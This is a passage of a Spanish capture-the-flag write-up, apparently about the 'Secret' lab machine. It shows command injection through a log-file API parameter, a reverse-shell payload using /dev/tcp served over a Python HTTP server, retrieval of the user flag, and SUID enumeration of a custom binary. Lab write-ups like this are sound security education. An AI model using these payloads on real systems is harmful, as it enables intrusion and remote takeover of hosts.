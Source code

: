 ```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/local-web/routes]
└──╼ $ curl -X GET 'http://10.10.11.120:3000/api/logs?file=;id' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjQ0ZTYxZWY4YjM5MTA0NWIzYzM4YjUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InozcjBieXRlQHozcjAuY29tIiwiaWF0IjoxNjQ4NjgzNTQ3fQ.PKplW4pupx9CCUREmMxvUVdkdlYmmmkWNq9uvYa6Elo" ; echo
"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```
¡Vemos que podemos ejecutar comandos!

Probemos a entablar una reverse shell.

Para ello creamos un archivo con nombre `index.html` con el siguiente contenido:

> `bash -i >& /dev/tcp/TU_IP/4444 0>&1`

Luego, montamos un pequeño servidor HTTP con **python**, con el siguiente comando:

> `python3 -m http.server 8000`

Por último, mandamos la siguiente petición para que entable la reverse shell:

![image](https://user-images.githubusercontent.com/67548295/160954519-1ceaca17-5f58-4c82-93ff-9d5bc3f8c723.png)

Conseguimos acceder inicialmente.

A partir de este punto podremos visualizar la flag `user.txt` en `/home/dasith/user.txt`:

```bash
dasith@secret:~/local-web$ head --bytes 15 /home/dasith/user.txt | xargs
cffd56207776a15
```

# Root.txt

Enumero el sistema en busca de posibles vectores de escalada de privilegios.

Hasta que pruebo por enumerar archivos SUID y encuentro algo:

```bash
dasith@secret:~$ find / -perm -4000 2>/dev/null
[...]
/opt/count
/snap/snapd/13640/usr/lib/snapd/snap-confine
/snap/snapd/13170/usr/lib/snapd/snap-confine
```
Mmmmh, `/opt/count`, este archivo no es que sea muy común, inspeccionemoslo.

Accedo al directorio del archivo y veo que es un binario del cual también se comparte el código:

```bash
dasith@secret:/opt$ ls
code.c  count  valgrind.log
```
Lo primero que hago es ejecutar el binario para ver como funciona:

```bash
Enter source file/directory name: /etc/passwd

Total characters = 1881
Total words      = 51
Total lines      = 36
Save results a file? [y/N]: y
Path: /tmp/results.txt

dasith@secret:/opt$ cat /tmp/results.txt 
Total characters = 1881
Total words      = 51
Total lines      = 36
```